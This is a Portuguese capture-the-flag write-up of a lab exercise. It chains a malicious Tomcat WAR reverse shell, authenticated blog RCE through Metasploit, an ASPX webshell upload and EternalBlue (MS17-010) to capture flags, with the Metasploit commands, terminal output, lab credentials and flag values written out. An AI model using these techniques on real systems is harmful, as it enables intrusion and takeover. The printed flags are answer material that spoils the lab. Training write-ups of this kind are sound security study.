🏴️ Shells e Payloads - Desafio
Dificuldade: Medium | SO: Misto (Windows + Linux) | Plataforma: CPTS — Módulo Shells & Payloads
Sobre esta página
Desafio do módulo Shells & Payloads (CPTS). Acesso via RDP a um host de salto (foothold) já dentro da rede interna, de onde três alvos são atacados em sequência: um servidor Windows com Tomcat, um servidor Linux com um blog PHP vulnerável e um segundo servidor Windows explorável via EternalBlue.
Sobre os IPs
O IP público de acesso RDP ao host de salto mudou entre os blocos de saída
(10.129.93.110, 10.129.204.126, 10.129.94.4), provavelmente por reset
do laboratório durante o estudo. Os IPs internos (172.16.1.x) se
mantiveram estáveis durante toda a exploração. Todas as saídas foram
mantidas exatamente como apareceram no terminal.
📋 Informações Gerais
| Campo | Valor |
|---|---|
| Host de entrada | skills-foothold (acesso via RDP) |
| IP (RDP, variável) | 10.129.93.110 / 10.129.204.126 / 10.129.94.4 |
| Hosts internos | 172.16.1.11 (shells-winsvr) · 172.16.1.12 (shells-nixsvr) · 172.16.1.13 (SHELLS-WINBLUE) |
| SO | Misto — Windows (foothold, winsvr, winblue) e Linux (nixsvr) |
| Dificuldade | Medium |
| Plataforma / Módulo | CPTS — Shells & Payloads |
| Domínio interno | inlanefreight.local |
| Data | 07/08/2026 |
| Status | ✅ Finalizado |
Objetivo
A partir de um host de salto na rede interna, obter acesso e capturar as flags dos demais hosts, usando diferentes técnicas de geração e entrega de shells/payloads (WAR malicioso, RCE autenticado via Metasploit, webshell ASPX e EternalBlue).
🔍 Enumeração Inicial
Credenciais encontradas no host de entrada
Logo após o acesso RDP ao skills-foothold, um arquivo access-creds.txt na
área de trabalho continha credenciais de dois serviços internos:

to manage the blog:
- admin / admin123!@# ( keep it simple for the new admins )
to manage Tomcat on apache
- tomcat / Tomcatadm
Change the passwords soon..
Credenciais obtidas (foothold)
- Blog admin:
admin/admin123!@# - Tomcat manager:
tomcat/Tomcatadm
Portas e Serviços Encontrados (172.16.1.13)
| Porta | Serviço | Versão / Banner |
|---|---|---|
| 80 | http | Microsoft IIS httpd 10.0 |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |


Descobertas
- [x]
access-creds.txtno foothold expõe credenciais do blog e do Tomcat - [x] IIS em
172.16.1.13com TRACE habilitado (http-methods) e indexação de diretório exposta - [x]
smb-security-mode: message signing enabled but not required — assinatura SMB não obrigatória - [x]
smb-os-discoveryrevela hostnameSHELLS-WINBLUE, Windows Server 2016 Standard 14393 → candidato a MS17-010 (EternalBlue)
🎯 Técnicas Utilizadas
| # | Técnica | Onde / Como foi aplicada |
|---|---|---|
| 1 | Acesso via RDP com credenciais fornecidas | Host de salto skills-foothold |
| 2 | Payload WAR malicioso via msfvenom + Tomcat Manager |
Deploy com tomcat/Tomcatadm → shell em shells-winsvr |
| 3 | Listener nc para shell reversa |
Recebimento da conexão de 172.16.1.11 |
| 4 | RCE autenticado via Metasploit (multi/http/fbs_blog_rce) |
Blog PHP em blog.inlanefreight.local (172.16.1.12), login admin/admin123!@# |
| 5 | Enumeração pós-exploração (vhosts, /, filesystem) |
Meterpreter → shell em shells-nixsvr |
| 6 | Upload de webshell ASPX (Antak) via indexador IIS exposto | 172.16.1.13/uploads/antak.aspx |
| 7 | Exploração EternalBlue (auxiliary/admin/smb/ms17_010_command) |
172.16.1.13 (SHELLS-WINBLUE) → execução de comando como SYSTEM |
🚀 Exploração / Acesso Inicial
Vetor de Entrada
| Campo | Valor |
|---|---|
| Vetor | RDP ao host de salto skills-foothold |
| Ferramentas | FreeRDP, nc, msfvenom/msfconsole, navegador |
| Acesso obtido como | htb-student (foothold) |
Credenciais de RDP
O login RDP no skills-foothold foi feito com credenciais fornecidas pelo
desafio, mas elas não aparecem no log/print — apenas o resultado do
acesso (usuário htb-student).
Etapa 1 — Tomcat (shells-winsvr): WAR malicioso → shell reversa
Com as credenciais tomcat/Tomcatadm, um payload WAR (ROOT.war) foi
preparado e enviado ao Tomcat Manager. Um listener nc foi aberto no
foothold e recebeu a conexão de volta:
listening on [any] 4444 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49828
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>hostname
hostname
shells-winsvr
C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>whoami
whoami
nt authority\local service

Acesso — shells-winsvr
Shell reversa como nt authority\local service em 172.16.1.11
(shells-winsvr), recebida no listener 172.16.1.5:4444.
Etapa 2 — Blog (shells-nixsvr): RCE autenticado via Metasploit
Adicionando blog.inlanefreight.local ao /etc/hosts (→ 172.16.1.12) e
logando com admin/admin123!@#, um post no blog apontava para um exploit
autenticado do Exploit-DB:

Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated) (Metasploit) — exploit-db.com/exploits/50064
msf6 exploit(multi/http/fbs_blog_rce) > exploit
[*] Got CSRF token: 34a61ef518
[*] Logging into the blog...
[+] Successfully logged in with admin
[+] Uploading shell...
[+] Shell uploaded as data/i/4EJ0.php
[+] Payload successfully triggered !
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:4444)
meterpreter > shell
whoami
www-data

Confirmando o host:
hostnamectl
Static hostname: shells-nixsvr
Operating System: Ubuntu 20.04.3 LTS
Kernel: Linux 5.4.0-88-generic
Architecture: x86-64

Acesso — shells-nixsvr
Shell como www-data em 172.16.1.12 (shells-nixsvr), via RCE
autenticado no blog PHP.
Etapa 3 — SHELLS-WINBLUE (172.16.1.13): IIS → webshell Antak
O indexador de diretórios do IIS estava exposto, com upload.aspx disponível:

Um webshell ASPX (Antak) foi enviado via upload.aspx, dando acesso
interativo ao PowerShell:

Tentativa que NÃO progrediu
Acesso a C:\Users\Administrator a partir da webshell Antak (iis
apppool\defaultapppool) é privilegiado — não foi possível avançar por
esse caminho diretamente.
Etapa 4 — SHELLS-WINBLUE: EternalBlue (MS17-010)
O nmap já indicava assinatura SMB não obrigatória e o hostname
SHELLS-WINBLUE, o que motivou a busca por módulos EternalBlue no
msfconsole:
| # | Módulo | Rank |
|---|---|---|
| 0 | exploit/windows/smb/ms17_010_eternalblue |
average |
| 1 | exploit/windows/smb/ms17_010_psexec |
normal |
| 2 | auxiliary/admin/smb/ms17_010_command |
normal |
| 3 | auxiliary/scanner/smb/smb_ms17_010 |
normal |
| 4 | exploit/windows/smb/smb_doublepulsar_rce |
great |

Usando o módulo 2 (auxiliary/admin/smb/ms17_010_command), com RHOSTS
172.16.1.13 e o comando type C:\Users\Administrator\Desktop\Skills-flag.txt:
msf6 auxiliary(admin/smb/ms17_010_command) > set RHOSTS 172.16.1.13
msf6 auxiliary(admin/smb/ms17_010_command) > set command type C:\Users\Administrator\Desktop\Skills-flag.txt
msf6 auxiliary(admin/smb/ms17_010_command) > exploit
[*] 172.16.1.13:445 - Target OS: Windows Server 2016 Standard 14393
[*] 172.16.1.13:445 - Built a write-what-where primitive...
[+] 172.16.1.13:445 - Overwrite complete... SYSTEM session obtained!
[+] 172.16.1.13:445 - Command completed successfully!
[*] 172.16.1.13:445 - Output for "type C:\Users\Administrator\Desktop\Skills-flag.txt":
One-H0st-Down!

Acesso — SHELLS-WINBLUE
Execução de comando como SYSTEM via ms17_010_command
(write-what-where primitive do MS17-010), sem necessidade de shell
interativa.
🐚 Shell e Pós-Acesso
Enumeração em shells-nixsvr
Com a shell www-data, foram enumerados vhosts internos e o filesystem:

admin.inlanefreight.local
app.inlanefreight.local
blog.inlanefreight.local
dev.inlanefreight.local
drupal.inlanefreight.local
A flag foi localizada em customscripts/flag.txt:

Resumo de acessos obtidos
| Host | IP | Acesso | Método |
|---|---|---|---|
skills-foothold |
10.129.x.x (RDP) |
htb-student |
RDP com credenciais fornecidas |
shells-winsvr |
172.16.1.11 |
nt authority\local service |
WAR malicioso no Tomcat |
shells-nixsvr |
172.16.1.12 |
www-data |
RCE autenticado (fbs_blog_rce) |
SHELLS-WINBLUE |
172.16.1.13 |
iis apppool\defaultapppool → SYSTEM |
Webshell Antak → EternalBlue (ms17_010_command) |
🚩 Flags
- [x] Flag capturada em
shells-nixsvr - [x] Flag capturada em
SHELLS-WINBLUE
| Flag | Local |
|---|---|
B1nD_Shells_r_cool |
customscripts/flag.txt (shells-nixsvr, 172.16.1.12) |
One-H0st-Down! |
C:\Users\Administrator\Desktop\Skills-flag.txt (SHELLS-WINBLUE, 172.16.1.13) |
📖 Resumo Técnico
| Campo | Valor |
|---|---|
| Causa raiz | Credenciais em texto puro no foothold (access-creds.txt) + serviços vulneráveis não corrigidos (blog RCE, IIS com upload exposto, MS17-010) |
| Cadeia de ataque | RDP → access-creds.txt → WAR no Tomcat (shells-winsvr) e blog RCE via Metasploit (shells-nixsvr) → flag B1nD_Shells_r_cool → nmap em 172.16.1.13 → webshell Antak (IIS) → EternalBlue (ms17_010_command) → flag One-H0st-Down! |
| Acesso final | SYSTEM em SHELLS-WINBLUE via MS17-010; www-data em shells-nixsvr |
💡 Lições Aprendidas
- O que funcionou: encadear um arquivo de credenciais exposto no foothold
para comprometer dois serviços diferentes (Tomcat Manager e blog PHP); usar
pistas do próprio
nmap(host chamado "Blue") para direcionar a busca por EternalBlue. - O que atrasou: tentar avançar a partir da webshell Antak com o usuário
de baixo privilégio
iis apppool\defaultapppool— o caminho certo era usar o SMB (MS17-010) para chegar a SYSTEM diretamente. - Comandos para revisar depois:
msfvenompara gerar payloads WAR; módulosms17_010_*do Metasploit e a diferença entre eles (eternalbluedá shell completa,commandexecuta apenas um comando via write-what-where). - Técnicas para estudar melhor: sempre revisar arquivos de credenciais encontrados logo no acesso inicial — eles frequentemente abrem múltiplos vetores em hosts diferentes na mesma rede interna.